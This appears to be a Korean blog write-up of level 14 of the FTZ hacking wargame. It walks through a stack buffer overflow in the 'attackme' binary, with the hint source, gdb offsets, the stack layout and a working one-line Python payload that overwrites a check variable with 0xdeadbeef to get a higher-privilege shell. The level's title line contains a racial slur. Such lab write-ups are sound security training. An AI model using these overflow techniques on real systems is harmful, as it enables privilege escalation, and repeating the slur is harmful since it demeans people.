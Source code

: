 ```yaml
---
title:  "[FTZ] level 14"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 17:39:31

---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>:    lea     eax, [ebp-56]

buf에서 ebp까지의 거리= 56

0x080484ad <main+29>:    cmp     DWORD PTR [ebp-16], 0xdeadbeef

check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf~check 까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)
